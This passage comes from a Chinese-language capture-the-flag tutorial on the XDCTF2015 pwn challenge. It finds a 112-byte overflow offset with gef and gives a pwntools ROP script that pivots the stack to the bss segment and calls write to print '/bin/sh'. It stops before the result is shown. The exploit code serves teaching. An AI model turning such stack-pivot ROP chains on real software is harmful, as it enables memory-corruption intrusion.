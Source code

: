 ```asm
[!] Syntax
pattern search PATTERN [SIZE]
gef➤  pattern search 0x62616164
[+] Searching '0x62616164'
[+] Found at offset 112 (little-endian search) likely
```

##### stage 1

这里我们的主要目的是控制程序执行write函数，虽然我们可以控制程序直接执行write函数。但是这里我们采用一个更加复杂的办法，即使用栈迁移的技巧，将栈迁移到bss段来控制write函数。即主要分为两步

1. 将栈迁移到bss段。
2. 控制write函数输出相应字符串。

这里主要使用了pwntools中的ROP模块。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write cmd="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"
rop.write(1, base_stage + 80, len(sh))
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

结果如下
